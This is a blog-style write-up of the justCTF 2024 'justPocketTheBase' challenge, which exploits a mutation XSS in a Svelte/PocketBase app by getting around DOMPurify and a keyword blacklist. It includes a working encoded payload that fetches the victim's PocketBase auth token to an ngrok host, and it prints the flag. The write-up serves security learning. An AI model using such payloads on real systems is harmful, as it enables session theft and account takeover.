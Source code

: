 ```yaml
---
layout: post
title: justCTF 2024 teaser justPocketTheBase challenge writeup
subtitle: XSS (Constant Suffering Syndrome)
mathjax: true
author: M411K
---
```


## justPocketTheBase ≈ 44

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/1caba872-34a9-48f4-a5aa-80f069d78e2f)

This challenge took me some time, not because it was hard per-say, but because I've spent too much time focusing on stuff that wasn't vulnreable but seemed sus, things like pocketbase configuration setup, pocketbase file uploading naming normalization, I kept focusing on the side stories rather than the main story, but nonetheless every side quest gave me more insight on the technology used by the author, which is always good, espicially that I haven't had much exposure to pocketbase before now.

## Setup

The challenge uses pocketbase database in the backend, and svelte as the front-end framework responsible for communicating with the api's provided by pocketbase in the backend:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/8aeead11-29be-4a8b-85bb-8583021954d6)

## Finding the XSS

From the start it was clear that you had to find an XSS, you have the bot, the main application where every user can post "plant" photos with their title, it was the classic setup.

So setting up to find the XSS, this block of code stands up:

```javascript
<script>
	import { onMount } from 'svelte';
	import { pb } from '$lib';

	let blacklist = [
		'window',
		'document',
		'cookie',
		'fetch',
		'navigator',
		'sendbeacon',
		'+',
		'_',
		'script',
		'!',
		'"',
		'#',
		'%',
		"'",
		'(',
		')',
		'*',
		'+',
		',',
		'-',
		'/',
		':',
		'?',
		'@',
		'[',
		']',
		';'
	];
	let id = null;
	let plant = null;
	let isLoading = true;
	let title;

	onMount(async () => {
		const params = new URLSearchParams(window.location.search);
		id = params.get('id');
		try {
			plant = await pb.collection('plants').getOne(id);
		} catch (error) {
			window.location.href = '/';
		} finally {
			isLoading = false;
		}
		setTimeout(() => {
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
			try {
				if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
					throw new Error('not safe!!!');
				}
				title.innerHTML = safe;
			} catch (err) {
				window.location.href = '/';
			}
		}, 100);
	});
</script>
```

Its in `routes/view-plant/+page.svelte` route, this routing scheme is specific to svelte, and manages how the `url/view-plant/id=x` will behave.

```javascript
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
```

The DOMPurify library was on a stable version and finding a 0-day in this labeled `easy` challenge was surely out-of-scope (although its comming in later challenges :haha:), but this way of sanitizing the title, creating an element with that content, then taking the innerText of the latter, then finally adding it to the title element that gonna be displayed to the user was all just over-engineered and opened the door for a mutation XSS (shortened as mXSS), where I will provide HTML entities in the title `&lt;` (`<`), `&gt;` (`>`) which are normally secure, so DOMpurify will not clear them off, but with the first div element, those html entities will be decoded, so when taking in them back and piping them to the legit title, they will be litterally treated as `<`, `>`, and we can create a html tags with them, so now its only a matter of crafting a payload wich is fairly easy, here is my final working payload:

`&lt;img src=1 onerror=location=atob\`amF2YXNjcmlwdDpmZXRjaCgnaHR0cDovLzIudGNwLmV1Lm5ncm9rLmlvOjEwMDMwLycrYnRvYShsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIikpLCB7IG1vZGU6ICduby1jb3JzJ30p\`&gt;`

the base64 is just:

```javascript
javascript:fetch('http://2.tcp.eu.ngrok.io:10030/'+btoa(localStorage.getItem(\"pocketbase_auth\")), { mode: 'no-cors'})
```

Surely after reporting my image, I get back the admin token in my flask server:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/bfa22b15-0358-466c-af62-dd39f808b330)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/cae7f544-21c7-4cc7-bbd7-908a440835d6)

By changing your token to the flag token, you get can view his uploaded image, and by applying exiftool to it, you find flag:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/b037e1b7-2700-46e8-8809-845a23ef740f)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/76b8be06-72c6-49fc-b17a-f287c3324a17)

And Here you go!: `justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}`
